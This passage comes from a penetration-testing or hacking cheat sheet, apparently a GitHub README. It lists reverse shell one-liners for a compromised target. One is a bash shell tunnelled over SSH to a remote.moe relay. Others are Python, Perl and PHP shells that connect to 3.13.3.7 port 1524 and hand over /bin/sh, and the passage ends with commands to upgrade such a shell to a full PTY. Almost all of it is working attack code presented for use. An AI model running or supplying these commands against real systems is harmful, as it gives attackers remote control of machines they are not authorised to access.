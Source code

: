 On the target(needs SSH and Bash):
```sh
bash -c '(killall ssh; rm -f /tmp/.r; ssh-keygen -q -t rsa -N "" -f /tmp/.r; ssh -i /tmp/.r -o StrictHostKeyChecking=no -L31338:uydsgl6i62nrr2zx3bgkdizlz2jq2muplpuinfkcat6ksfiffpoa.remote.moe:31337 -Nf remote.moe;  bash -i &>/dev/tcp/0/31338 0>&1 &)'
```

On the target (alternative; needs ssh, bash and mkfifo):
```sh
rm -f /tmp/.p /tmp/.r; ssh-keygen -q -t rsa -N "" -f /tmp/.r && mkfifo /tmp/.p && (bash -i</tmp/.p  2>1 |ssh -i /tmp/.r -o StrictHostKeyChecking=no -W uydsgl6i62nrr2zx3bgkdizlz2jq2muplpuinfkcat6ksfiffpoa.remote.moe:31337 remote.moe>/tmp/.p &)
```

<a id="reverse-shell-python"></a>
**5.i.i. Reverse shell with Python**
```sh
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("3.13.3.7",1524));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

<a id="reverse-shell-perl"></a>
**5.i.j. Reverse shell with Perl**

```sh
# method 1
perl -e 'use Socket;$i="3.13.3.7";$p=1524;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
# method 2
perl -MIO -e '$p=fork;exit,if($p);foreach my $key(keys %ENV){if($ENV{$key}=~/(.*)/){$ENV{$key}=$1;}}$c=new IO::Socket::INET(PeerAddr,"3.13.3.7:1524");STDIN->fdopen($c,r);$~->fdopen($c,w);while(<>){if($_=~ /(.*)/){system $1;}};'
```
<a id="reverse-shell-php"></a>
**5.i.k. Reverse shell with PHP**

```sh
php -r '$sock=fsockopen("3.13.3.7",1524);exec("/bin/bash -i <&3 >&3 2>&3");'
```

<a id="reverse-shell-upgrade"></a>
<a id="reverse-shell-pty"></a>
**5.ii.a. Upgrade a reverse shell to a PTY shell**

Any of the above reverse shells are limited. For example *sudo bash* or *top* will not work. To make these work we have to upgrade the shell to a real PTY shell:

```sh
# Using script
exec script -qc /bin/bash /dev/null  # Linux
exec script -q /dev/null /bin/bash   # BSD
```

```sh
# Using python
exec python -c 'import pty; pty.spawn("/bin/bash")'
```
